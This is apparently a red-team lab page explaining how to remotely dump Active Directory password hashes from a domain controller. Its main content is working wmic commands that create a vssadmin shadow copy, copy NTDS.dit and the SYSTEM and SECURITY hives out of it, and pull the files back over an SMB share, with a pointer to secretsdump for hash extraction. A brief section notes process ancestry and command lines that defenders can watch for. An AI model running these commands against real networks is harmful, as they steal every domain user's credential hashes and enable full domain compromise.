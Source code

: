 # Dumping Domain Controller Hashes via wmic and Vssadmin Shadow Copy

This quick labs hows how to dump all user hashes from the DC by creating a shadow copy of the C drive using vssadmin - remotely.

This lab assumes the attacker has already gained administratrative access to the domain controller.

## Execution

Create a shadow copy of the C drive of the Domain Controller:

{% code title="attacker@victim" %}
```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-23 213609.png>)

Copy the NTDS.dit, SYSTEM and SECURITY hives to C:\temp on the DC01:

{% code title="attacker@victim" %}
```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```
{% endcode %}

Below shows the above command executed on the attacking machine (right) and the files being dumped to c:\temp on the DC01 on the left:

![](<../../.gitbook/assets/dc-dump (1).gif>)

Mount the DC01\c$\temp locally in order to retrieve the dumped files:

{% code title="attacker@victim" %}
```csharp
net use j: \\dc01\c$\temp /user:administrator 123456; dir j:\
```
{% endcode %}

![](<../../.gitbook/assets/Annotation 2019-05-23 222654.png>)

Now, of you go extracting hashes with secretsdump as shown here:

{% content-ref url="ntds.dit-enumeration.md" %}
[ntds.dit-enumeration.md](ntds.dit-enumeration.md)
{% endcontent-ref %}

## Observations

A quick note for defenders on the proces ancestry:

![](<../../.gitbook/assets/Annotation 2019-05-23 213352.png>)

and of course commandlines:

![](<../../.gitbook/assets/Annotation 2019-05-23 223432.png>)

as well as service states:

![](<../../.gitbook/assets/Annotation 2019-05-23 223157.png>)

...and of course the lateral movement piece:

![](<../../.gitbook/assets/Annotation 2019-05-23 230027.png>)

## References

[https://twitter.com/netmux/status/1123936748000690178?s=12](https://twitter.com/netmux/status/1123936748000690178?s=12)
